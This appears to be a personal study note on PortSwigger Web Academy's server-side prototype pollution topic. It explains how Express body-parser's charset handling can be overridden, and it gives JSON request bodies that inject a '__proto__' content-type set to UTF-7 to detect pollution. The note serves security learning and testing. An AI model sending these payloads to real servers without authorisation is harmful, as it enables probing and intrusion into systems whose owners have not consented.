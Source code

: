 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/charset-override/"}
---
```



---

Express servers use middleware to process requests before passing them to handlers. The **body-parser** module, for example, parses request bodies and creates `req.body`.

```js
var charset = getCharset(req) || 'utf-8' 

function getCharset (req) { 
	try { 
		return (contentType.parse(req).parameters.charset || '').toLowerCase() 
	} catch (e) {
		return undefined 
	}
} 
read(req, res, next, parse, debug, { 
	encoding: charset, 
	inflate: inflate, 
	limit: limit, 
	verify: verify 
})
```

In the code above, `getCharset(req)` attempts to parse the `Content-Type` header to determine the character encoding. If **no charset** is defined, it falls back to an empty string (`''`). This value is then passed to `read()` as an **encoding option**, defaulting to `'utf-8'`.

Since `charset` is an empty string, we can attempt to exploit it using Prototype Pollution by injecting a different/custom encoding.

---

If you can find an object whose properties are visible in a response, you can use this to probe for sources. In the following example, we'll use UTF-7 encoding and a JSON source.

1. Add an arbitrary UTF-7 encoded string to a property that's reflected in a response. For example, `foo` in UTF-7 is `+AGYAbwBv-`.
    
```json
	{ 
		"sessionId":"0123456789", 
		"username":"wiener", 
		"role":"+AGYAbwBv-" 
	}
```

2. Send the request. Servers won't use UTF-7 encoding by default, so this string should appear in the response in its encoded form.

3. Try to pollute the prototype with a `content-type` property that explicitly specifies the UTF-7 character set:
    
```json
	{ 
		"sessionId":"0123456789", 
		"username":"wiener", 
		"role":"+AGYAbwBv-", 
		"__proto__":{ 
			"content-type": "application/json; charset=utf-7" 
		} 
	}
```

3. Repeat the first request. If you successfully polluted the prototype, the UTF-7 string should now be decoded in the response:
    
```json
	{ 
		"sessionId":"0123456789", 
		"username":"wiener", 
		"role":"foo" 
	}
```